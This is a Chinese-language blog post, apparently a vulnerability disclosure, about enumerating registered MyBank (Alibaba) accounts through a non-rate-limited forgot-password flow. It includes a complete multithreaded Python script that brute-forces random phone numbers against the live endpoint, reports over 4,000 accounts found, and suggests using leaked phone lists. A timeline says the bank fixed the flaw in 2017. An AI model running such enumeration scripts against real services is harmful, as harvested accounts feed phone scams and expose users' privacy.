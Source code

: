 ```yaml
---
layout: post
title: Alipay Mybank Account Random Verify
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;昨天有朋友问我："为什么新注册的手机号绑定了某理财账户，没过一天就收到了诈骗短信？"那可能是你运气比较好。想起了之前针对网商银行（阿里巴巴旗下的民营银行）强怼出来的一个漏洞。没什么技术含量，但可以参考。<br>
扫账户这种漏洞对于金融行业来说是很难见到的，因为黑产可以拿这些账户进行诈骗，支付宝全线每个点都做了限频处理。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;下载了个网商银行各点抓包看了下，在未登录口的忘记密码这个点随便输入一个手机号：

<img src="http://7xiw31.com1.z0.glb.clouddn.com/fetchImage.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;输入一个我注册过的手机号：

<img src="http://7xiw31.com1.z0.glb.clouddn.com/fetchImage-1.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;本来以为这个地方也限频了，毕竟支付宝产品线虽然复杂，但限频做的还挺全面的。测试发现的确是限频了，只是比较鸡肋。真正导致返回系统异常的是因为process_context_id被销毁了：

<img src="http://7xiw31.com1.z0.glb.clouddn.com/fetchImage-2.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;不知道这个后端是怎么设计的，process_context_id使用多少次后还是多长时间后被销毁不是很固定，或许是有相应的算法吧。这个process_context_id取自每次点击忘记密码时生成的，https://safecenter.mybank.cn/account/process.htm，然后再点击请求时传递回去进行校验：

<img src="http://7xiw31.com1.z0.glb.clouddn.com/aaaa3werfdb.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Fuzz了下https://safecenter.mybank.cn/account/process.htm没有限频。既然这个点没有限频，那就索性每次手机号验证请求一次拿一次process_context_id吧，毕竟来回判断这个process_context_id是否被销毁并不靠谱。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;开始写代码，号码就选择随机生成了，如果从一些其他的裤子中抽取一批手机号进行验证的话结果会更多更快吧。

```
#!/usr/bin/env python
#coding:utf-8

import sys
import bs4
import json
import random
import requests
import threadpool as tp

def get_process_context_id():
	r = requests.get('https://safecenter.mybank.cn/account/process.htm?service_name=reset_logon_password&userType=individual&deviceId=WHnP9B9Km4gDAEFQCPw4G2ea')
	soup = bs4.BeautifulSoup(r.text)
	process_context_id = soup.find_all('input')[1]['value']
	return process_context_id

def mybank_verify(args):
	flag = 0
	while True:
		flag += 1
		phone_random = random.choice(['138','136','139','151','153','188','186','135'])+"".join(random.sample("0123456789",8))
		headers = {
			'Host':'safecenter.mybank.cn',
			'Connection':'keep-alive',
			'Accept':'application/json',
			'Origin':'https://safecenter.mybank.cn',
			'X-Requested-With':'XMLHttpRequest',
			'Content-Type':'application/x-www-form-urlencoded',
			'Referer':'https://safecenter.mybank.cn/account/process.htm?service_name=reset_logon_password&userType=individual&&deviceId=WHnP9B9Km4gDAEFQCPw4G2ea',
			'Accept-Encoding':'gzip, deflate',
			'Accept-Language':'zh-CN,en-US;q=0.8',
			'Cookie':'...'
		}
		payload = {
			'ctoken':'...',
			'process_context_id':get_process_context_id(),
			'service_name':'reset_logon_password',
			'username':phone_random,
			'deviceId':'...',
			'apdidToekn':'...',
			'umidToken':'...',
			'rdsData':'undefined'
		}
		url = 'https://safecenter.mybank.cn/account/process.json'
		r = requests.post(url,headers=headers,data=payload)
		print '[%d] Test Phone: %s' % (flag,payload['username'])
		if json.loads(r.content)['info']['success'] == True:
			print '[ok] %s' % payload['username']
			f = open('mybank_account.txt','a')
			f.write(payload['username']+'\n')
			f.close()

if __name__ == '__main__':
	args = []
	for i in range(200):
		args.append(i)
	pool = tp.ThreadPool(100)
	reqs = tp.makeRequests(mybank_verify,args)
	[pool.putRequest(req) for req in reqs]
	pool.wait()
	pool.dismissWorkers(100,do_join=True)
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;分别挂在两台机器上跑几个小时看看，竟然没有触发风控？

<img src="http://7xiw31.com1.z0.glb.clouddn.com/fetchImage-4.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;停下了脚本，看结果爆破出4000多注册账户：

<img src="http://7xiw31.com1.z0.glb.clouddn.com/fetchImage-7.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;照这个速度一天跑出2万+是没有问题的。这也证实了那位朋友所发生的事，此案例只是其中之一。

> Timeline：

* 20170409 public via @Tr3jer_CongRong
* 20170116 mybank confirm and fix
* 20170115 report vul detail to afsrc



